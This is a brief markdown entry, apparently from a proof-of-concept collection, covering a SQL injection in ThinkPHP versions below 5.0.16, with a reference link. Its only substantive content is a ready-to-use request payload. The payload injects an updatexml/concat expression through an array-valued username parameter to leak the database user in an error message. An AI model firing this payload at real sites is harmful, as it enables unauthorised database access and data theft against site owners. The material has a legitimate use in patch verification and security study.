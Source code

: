 ## Thinkphp框架 < 5.0.16 存在sql注入

### Reference

* https://paper.seebug.org/564/

-------------
### poc

```
ip/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```

